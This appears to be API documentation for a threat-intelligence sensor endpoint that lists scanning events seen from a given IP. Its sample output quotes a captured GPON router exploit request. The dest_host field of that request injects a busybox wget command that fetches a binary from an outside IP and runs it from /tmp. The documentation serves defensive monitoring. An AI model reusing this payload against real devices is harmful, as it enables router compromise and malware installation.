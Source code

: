 #### /v1/query/sensors/ip/{target}

Details about an Scanner. List of recent events form the specified host, including details of scanned ports, payloads and tags.

*Parameters*

* target: [String] target IP address or CIDR up to /24

*Output*

```shell
curl 'https://api.binaryedge.io/v1/query/sensors/ip/xxx.xxx.xxx.xxx' -H 'X-Token:InsertYourClientToken'
```

```json
{
    "query": "xxx.xxx.xxx.xxx",
    "total": 1,
    "targets_found": 1,
    "events": [{
        "port": 443,
        "results": [{
            "target": {
                "port": 443,
                "protocol": "tcp"
            },
            "origin": {
                "ts": 1549500839739,
                "type": "sinkhole",
                "ip": "xxx.xxx.xxx.xxx",
                "rdns": "xxx.xxx.xxx.example.com"
            },
            "data": {
                "payload": "POST /GponForm/diag_Form?style/ HTTP/1.1\\r\\nUser-Agent: Hello, World\\r\\nAccept: */*\\r\\nAccept-Encoding: gzip, deflate\\r\\nContent-Type: application/x-www-form-urlencoded\\r\\n\\r\\nXWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://185.244.25.98/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0",
                "extra": {
                    "http": {
                        "method": "POST",
                        "path": "/GponForm/diag_Form?style/",
                        "version": "1.1",
                        "headers": {
                            "user-agent": "Hello, World",
                            "accept": "*/*",
                            "accept-encoding": "gzip, deflate",
                            "content-type": "application/x-www-form-urlencoded"
                        }
                    }
                },
                "tags": ["HTTP_SCANNER"]
            },
            "@timestamp": "2019-02-07T00:54:00.422Z"
        }]
    }]
}
```
